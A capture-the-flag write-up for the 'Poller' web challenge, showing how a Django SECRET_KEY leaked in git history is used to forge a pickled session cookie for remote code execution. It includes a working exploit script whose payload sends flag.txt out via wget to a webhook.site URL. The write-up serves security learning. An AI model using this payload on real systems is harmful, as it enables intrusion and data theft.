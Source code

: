 ```yaml
---
grand_parent: Categories
parent: Web
title: Poller
nav_order: 8
---
```


# Poller

```
Have your say! Poller is the place where all the important infosec questions are asked.
```

## Challenge

> TL;DR: Django Pickled Cookie Deserialization RCE

<img src="images/poller-1.png">

Visiting the page, it looks pretty static and if we examine the HTML source, we see a comment pointing to what appears to be the GitHub repository for this challenge:

<img src="images/poller-2.png">

Once we log into the website, it looks hardcoded and no dynamic input is really received. It feels like a deadend once you have tried the usual low-hanging fruits like IDOR.

<img src="images/poller-3.png">

So let's look at the GitHub repo. Examining the commit history, we see an interesting commit title "Added auth templates and rotated SECRET_KEY":

<img src="images/poller-4.png">

Examining it, we see that the `SECRET_KEY` used in the Django application has been changed away:

<img src="images/poller-5.png">

From our past experiences, this is thus far looking like a Django cookie deserialization RCE challenge. In this case, we would need to obtain this `SECRET_KEY` used in the Django process, then we can generate a cookie such that when it is deserialized, it would execute our specified code.

But first, we would have to find the new `SECRET_KEY`, which appears to be stored in the environment (.env file). If we look at the commit just after this one ("Added username and login/logout buttons to navbar"), we see that the `SECRET_KEY` has been leaked from hte `.env copy` file:

<img src="images/poller-6.png">

Now that we have the `SECRET_KEY`, we can use the following exploit script to generate a serialized cookie that contains the code we want to execute:

```py
import subprocess
import pickle
from django.core import signing
from django.contrib.sessions.serializers import PickleSerializer

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'

class Exploit(object):
  def __reduce__(self):
    return (subprocess.Popen, (
      ("cat flag.txt | xargs -I {{}} wget https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={{}}"),
      0, # Bufsize
      None, # exec
      None, #stdin
      None, #stdout
      None, #stderr
      None, #preexec
      False, #close_fds
      True, # shell
      ))

print(signing.dumps(Exploit(),
    key=SECRET_KEY,
    salt='django.contrib.sessions.backends.signed_cookies',
    serializer=PickleSerializer,
    compress=True))
```

Running the script to generate the cookie:

```bash
$ python3 cookie.py 
.eJxrYJ3axwABPVzFpUkFRfnJqcXFU3pYA_ILUvOmTJ6i0ZOanFiikJaTmK5XUlGiUKNQkViUXqyg66lQXV1bq1CenlqikFFSUlBspa9fnpqUkZ-frVecWZKqn2qcbJ6YYpqmm2iWlqxrYmJuqWuRaGSim5xommRiamxuZmBobg8y1xZk0BRvBj8Q6OwomRI0RQ8Adg4zXg:1nl41C:Ozn-CsUev88lhp5gtmynDvXJd0M
```

Replacing the cookie and refreshing the page should result in us getting a callback on our controlled domain, containing the flag:

<img src="images/poller-7.png">

<img src="images/poller-8.png">

Flag: `flag{a6b902e045b669148b5e92f771a68d39}`
